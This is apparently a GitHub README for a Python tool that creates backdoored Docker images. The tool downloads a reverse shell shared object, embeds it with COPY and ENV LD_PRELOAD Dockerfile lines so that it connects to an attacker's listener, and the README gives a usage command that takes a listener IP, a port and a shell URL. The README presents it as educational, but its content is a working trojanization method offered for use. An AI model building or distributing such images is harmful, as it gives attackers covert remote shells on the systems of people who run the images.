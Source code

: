# Trojanizedocker - Docker Backdoor Image Creator (Based on Dockerscan)

This Python script facilitates the creation of a backdoored Docker image. It automates the process by downloading a specified reverse shell binary, embedding it into the Docker image, and configuring environment variables to establish a reverse shell connection. 
This is a Python script that is going to help a user to create a Docker image with a backdoor. By doing so, it makes the process automatic by making use of a certain reversed shell binary, embedding it into the Docker image and setting environment variables to provide reverse shell connection. The script uses reverse shell component that was originally developed by [cr0hn - Dockerscan](https://github.com/cr0hn/dockerscan/blob/590a844418038d25e6649e609ef630868e0c9161/dockerscan/actions/image/modifiers/shells/reverse_shell.so).

## Background

The motivation for developing this script stemmed from the lack of recent updates on the Dockerscan project; the last commit was made on May 27, 2020 [view commit](https://github.com/cr0hn/dockerscan//commit/590a844418038d25e6649e609ef630868e0c9161). The need for a substitute that would be easy to use and work with the different versions of Python which was used by Dockerscan.

## Purpose

It is achieved by designing the software for educational purposes, enabling users to understand and demonstrate the operations of Docker image manipulation using `LD_PRELOAD`.

## How It Works

The script performs several key operations to create a backdoored Docker image:

1. **Download Reverse Shell Binary**: It downloads a reverse shell shared object file (`.so`) from a specified URL. This file is designed to establish a remote connection from the Docker container to an attacker-controlled server.

2. **Create Dockerfile**: The script dynamically generates a Dockerfile that incorporates the downloaded reverse shell. This Dockerfile instructs Docker to copy the reverse shell into the image and set it to be loaded before any other library by using the `LD_PRELOAD` environment variable.

## Understanding LD_PRELOAD and Reverse Shell Injection

- The Dockerfile created by this script contains the following critical lines:

```
COPY reverse_shell.so /usr/share/lib/reverse_shell.so
ENV LD_PRELOAD=/usr/share/lib/reverse_shell.so
```
## What Does This Do?

- `COPY reverse_shell.so /usr/share/lib/reverse_shell.so`: Command copies the reverse shell binary (reverse_shell.so - used in dockerscan) into a specific location inside the Docker image. 

- `ENV LD_PRELOAD`=/usr/share/lib/reverse_shell.so: By setting the LD_PRELOAD environment variable, it is intructed that the Linux dynamic linker to load our specified `reverse_shell.so` file before any other libraries when a program is run. This is a powerful method for modifying the behavior of compiled applications transparently.

- Use LD_PRELOAD leading to immediate code execution: Using `LD_PRELOAD` with a constructor attribute in the shared object allows executing custom code before the main application starts. This can be used for debugging, monitoring, or altering the application's normal operation without modifying the source code.

  
## Requirements

Before running the script, ensure that Docker is installed and running on your system. Python 3.x is also required.

## Installation

Install the required Python libraries with:

```
pip install -r requirements.txt
```

## Usage

```
python docker_backdoor.py -i <base-image> -o <output-image> -l <listener-ip> -p <listener-port> --shell-url <url-to-reverse-shell>
```

[![Watch the video](https://i9.ytimg.com/vi_webp/YIwkOf3P2ws/mqdefault.webp?v=662d6aaf&sqp=CKjTtbEG&rs=AOn4CLDNoW7ZHFtktp9-dI3EaiUb4swHMg)](https://youtu.be/YIwkOf3P2ws)

## Credits [Based On]

- **Backdooring Docker images - Reverse shell**: [Backdooring Docker images - Reverse shell](https://greencashew.dev/posts/backdooring-docker-images-reverse-shell/)
- **DockerScan GitHub Repository**: [Source for DockerScan, a tool for security analysis of Docker containers](https://github.com/cr0hn/dockerscan/)
- **LD_PRELOAD: How to Run Code at Load Time**: [LD_PRELOAD: How to Run Code at Load Time](https://www.secureideas.com/blog/2021/ldpreload-runcode.html)
- Thanks to #chatgpt
